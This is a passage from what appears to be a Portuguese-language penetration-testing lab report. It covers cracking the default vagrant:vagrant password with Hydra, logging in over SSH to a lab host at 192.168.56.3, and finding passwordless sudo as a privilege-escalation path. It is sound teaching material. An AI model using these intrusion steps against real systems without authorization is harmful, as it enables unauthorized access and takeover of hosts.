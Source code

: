 **Explicação:** O Hydra conseguiu encontrar a senha "vagrant" para o usuário "vagrant" em aproximadamente 19 segundos. Isso demonstra o quão fraco é usar credentials idênticas (usuario:usuario).

### 3.4 Passo 3: Acesso SSH ao alvo

Com as credenciais válidas (vagrant:vagrant), realizei login no SSH:

```bash
ssh vagrant@192.168.56.3
```

**Output do acesso:**

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
vagrant@192.168.56.3's password:
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)

* Documentation:  https://help.ubuntu.com/
  Last login: Thu Oct 23 21:00:57 2025 from 192.168.56.1

vagrant@ubuntu:~$
```

**Verificação de acesso inicial:**

```bash
vagrant@ubuntu:~$ whoami
vagrant

vagrant@ubuntu:~$ id
uid=900(vagrant) gid=900(vagrant) groups=900(vagrant),27(sudo)
```

**Explicação:** Consegui acesso com usuário comum (vagrant). Notar que este usuário está no grupo `sudo`, o que é crucial para escalação de privilégio.

### 3.5 Passo 4: Escalação de privilégio  [análise de Sudo]

Como o usuário vagrant está no grupo sudoers, realizei verificação das permissões:

```bash
vagrant@ubuntu:~$ sudo -l
```

**Resultado obtido:**

```
Matching Defaults entries for vagrant on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS"

User vagrant may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```

**Explicação:** O usuário vagrant pode executar qualquer comando com sudo sem necessidade de senha. Isto é uma configuração extremamente perigosa! Isso abre múltiplas vetores de escalação.
